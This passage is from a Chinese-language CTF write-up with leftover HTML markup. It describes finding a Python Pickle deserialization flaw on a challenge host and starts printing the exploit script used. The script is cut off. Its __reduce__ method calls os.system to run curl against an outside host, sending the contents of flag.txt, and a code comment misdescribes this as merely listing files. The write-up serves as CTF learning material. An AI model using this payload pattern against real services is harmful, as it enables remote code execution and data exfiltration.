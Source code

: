 <p nodeIndex="89"><span nodeIndex="245"><strong nodeIndex="246"><span nodeIndex="247">Python Pickle反序列化漏洞</span></strong></span></p>
<hr nodeIndex="248"><p nodeIndex="90"><span nodeIndex="249">在下一个</span><span nodeIndex="250">CTF</span><span nodeIndex="251">挑战中，我们拿到了一台连接至</span><span nodeIndex="252">ganon.39586ebba722e94b.ctf.land:8000</span><span nodeIndex="253">的主机。在与该主机进行了首次连接之后，我们没有得到什么有用的输出，所以我决定用随机字符和</span><span nodeIndex="254">HTTP</span><span nodeIndex="255">请求来对该主机的开放端口进行模糊测试，看看能不能得到一些有价值的东西。我进行了大量尝试之后，一个单引号字符触发了如下所示的错误信息</span><span nodeIndex="256">:</span></p>
<pre class="brush:bash;toolbar:false" nodeIndex="91">
# nc -v ganon.39586ebba722e94b.ctf.land 8000
ec2-34-214-16-74.us-west-2.compute.amazonaws.com [34.214.16.74] 8000 (?) open
cexceptions
AttributeError
p0
(S"Unpickler instance has no attribute 'persistent_load'"
p1
tp2
Rp3
.
</pre>
<p nodeIndex="92"><span nodeIndex="257">其中最引人注意的错误信息就是<span nodeIndex="258"><strong nodeIndex="259">(S"Unpickler instance has no attribute 'persistent_load'"</strong></span>，于是我马上用Google搜索关于该错误信息的内容，原来这段错误提示跟一个名叫“Pickle”的Python序列化库有关。</span></p>
<p nodeIndex="93"><span nodeIndex="260">接下来的思路就很清晰了，这个漏洞跟其他的Python反序列化漏洞非常相似，我们应该可以使用类似的方法来拿到这一次挑战的flag。接下来，我用Google搜索了关于“Python Pickle反序列化漏洞利用”的内容，然后发现了如下所示的漏洞利用代码。在对代码进行了简单修改之后，我便得到了一份能够正常工作的漏洞利用代码。它可以向目标服务器发送Pickle序列化对象，而我就可以在该对象中注入任何我想要运行的控制命令了。</span></p>
<p nodeIndex="94"><span nodeIndex="261"><strong nodeIndex="262"><span nodeIndex="263">漏洞利用代码</span></strong></span></p>
<pre class="brush:python;toolbar:false" nodeIndex="95">
#!/usr/bin/python
# Python Pickle De-serialization Exploit by 1N3@CrowdShield - https://crowdshield.com
#
 
import os
import cPickle
import socket
import os
 
# Exploit that we want the target to unpickle
class Exploit(object):
    def __reduce__(self):
        # Note: this will only list files in your directory.
        # It is a proof of concept.
        return (os.system, ('curl https://crowdshield.com/.injectx/rce.txt?`cat flag.txt`',))
 